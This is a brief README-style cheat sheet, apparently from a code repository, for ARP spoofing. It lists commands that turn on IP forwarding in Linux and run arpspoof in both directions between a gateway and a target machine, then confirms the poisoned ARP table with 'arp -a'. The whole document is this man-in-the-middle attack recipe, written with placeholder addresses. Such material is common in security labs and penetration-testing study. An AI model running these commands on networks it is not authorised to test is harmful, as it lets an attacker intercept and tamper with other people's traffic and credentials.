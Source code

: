 # arp spoofing
```
#ip_forwarding must be enabled
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <gateway-ip> <target-ip>
arpspoof -i <interface> -t <target-ip> <gateway-ip>
```

# Verify on target machine
```
arp -a # works on windows and linux idk about mac
```
